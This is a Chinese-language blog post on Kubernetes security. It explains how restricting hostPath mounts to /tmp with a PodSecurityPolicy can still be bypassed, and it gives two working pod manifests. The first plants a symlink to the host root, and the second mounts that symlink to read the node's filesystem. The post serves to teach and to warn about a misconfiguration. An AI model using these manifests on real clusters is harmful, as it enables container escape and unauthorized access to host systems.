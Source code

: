 ```yaml
---
title: hostpath is dangerous
layout: post
categories: k8s
tags: k8s security
date: 2024-02-02 18:00
excerpt: hostpath is dangerous
---
```


{:.table-of-content}
* TOC
{:toc}

# 令人不安的hostPath
在k8s中，如果允许一个用户创建pod，则意味着该用户可以控制整个集群。很多时候又想给创建pod的权限，又不想他能控制集群，故使用psp（PodSecurityPolicy）来增加安全性（在新版PodSecurity中，其baseline的标准中就禁止了hostPath）。关于hostPath的历史问题可参考[Kubernetes and HostPath, a Love-Hate Relationship](https://blog.quarkslab.com/kubernetes-and-hostpath-a-love-hate-relationship.html)。

## 限制hostPath
当要使用hostPath又不想暴露宿主机上的关键目录，一个自然的想法就是使用psp来限制用户只能挂载某几个宿主机目录，但如果容器可以写hostPath目录的话，仍然可以逃逸
```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restrict-tmp-mount
spec:
  privileged: false 
  volumes:
    - 'hostPath'
  allowedHostPaths:
    - pathPrefix: "/tmp" # 仅允许挂载 /tmp 目录
      readOnly: false
  runAsUser:
    rule: 'RunAsAny'
  seLinux:
    rule: 'RunAsAny'
  fsGroup:
    rule: 'RunAsAny'
```

## 逃逸
使用两个pod进行逃逸，在第一个pod中挂载了`/tmp`目录，并在里面创建了一个指向根目录的符号链接`host_root`，然后创建第二个pod，挂载`/tmp/host_root`，这样就可以访问宿主机根目录了
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  containers:
  - image: ubuntu
    name: test
    command: ["bash"]
    args: ["-c", "ln -s / /mnt/host_root && sleep 10000"]
    volumeMounts:
    - mountPath: /mnt
      name: test-vol
  volumes:
  - name: test-vol
    hostPath:
      path: /tmp
---
apiVersion: v1
kind: Pod 
metadata:
  name: test1
spec:
  initContainers:
  - name: sleep
    image: ubuntu
    command: ["sleep"]
    args: ["120"]
  containers:
  - image: ubuntu
    name: test1
    command: ["sleep"]
    args: ["10000"]
    volumeMounts:
    - mountPath: /mnt
      name: test-vol
  volumes:
  - name: test-vol
    hostPath:
      path: /tmp/host_root
```

等创建好后，执行kubectl查看test1下的/mnt目录，此时的/mnt就是宿主机根目录了
```shell
kubectl exec test1 -- ls /mnt/ -l
```
